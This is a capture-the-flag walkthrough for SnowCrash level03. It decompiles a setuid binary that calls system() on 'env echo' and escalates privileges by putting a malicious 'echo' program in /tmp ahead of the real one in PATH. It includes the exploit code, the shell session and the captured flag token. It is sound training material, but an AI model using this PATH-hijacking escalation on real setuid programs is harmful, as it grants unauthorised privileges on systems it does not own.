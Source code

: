 # Level03

## Walkthrough

First, let's check the content of the home directory.

```bash
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

The `s` on `level03` permissions indicates the [setuid bit](https://en.wikipedia.org/wiki/Setuid). This means that the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is `flag03`.

To analyze the file, we transfer it to our local machine using SCP.

```bash
host:~$ scp -P 4242 level02@localhost:level03 level03
```

We decompile the binary using a decompiler explorer like [dogbolt](http://dogbolt.org).

[Link to the decompiled output](https://dogbolt.org/?id=0a105cdf-9237-4e31-9773-e9a12740c81a)

By checking the main function, we can figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case: `flag03`)
- executes a shell command (`echo`) with `system()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	__gid_t v4; // [esp+18h] [ebp-8h]
	__uid_t v5; // [esp+1Ch] [ebp-4h]

	v4 = getegid();
	v5 = geteuid();
	setresgid(v4, v4, v4);
	setresuid(v5, v5, v5);
	return system("/usr/bin/env echo Exploit me");
}
```

How can we exploit this program? By running the `getflag` command, with the `flag03` privileges, inside the `system()` call.  
Although we cannot modify the arguments passed to the system call directly, we can exploit the fact that `echo` is a built-in command and alter it’s behavior to execute the `getflag` command instead.

We then have to create our own version of `echo` in the `/tmp` directory and add it to the `$PATH` so that it will be invoked instead of the original one. After that, we just run the script and voila, it executes the `getflag` command as `flag03`.

```bash
level03@SnowCrash:~$ cd /tmp && mkdir echo
level03@SnowCrash:/tmp$ cd echo && touch echo.c
level03@SnowCrash:/tmp/echo$ vim echo.c
# paste the c program from below
level03@SnowCrash:/tmp/echo$ gcc echo.c -o echo
level03@SnowCrash:/tmp/echo$ ls -la
total 12
drwxrwxr-x 2 level03 level03   80 Feb  8 19:51 .
d-wx-wx-wx 6 root    root     120 Feb  8 19:50 ..
-rwxrwxr-x 1 level03 level03 7160 Feb  8 19:51 echo
-rw-rw-r-- 1 level03 level03   84 Feb  8 19:49 echo.c
level03@SnowCrash:/tmp/echo$ export PATH=/tmp/echo:$PATH
level03@SnowCrash:/tmp/echo$ ~/level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```c
// echo.c
#include <stdlib.h>

int main(void) {
	system("/usr/bin/env getflag");
	return 1;
}
```
## Resources

- [Exploit system() call in C](https://stackoverflow.com/questions/39939853/exploit-system-call-in-c)
- [How to exploit system() call in C](https://www.go4expert.com/articles/exploit-c-t24920)
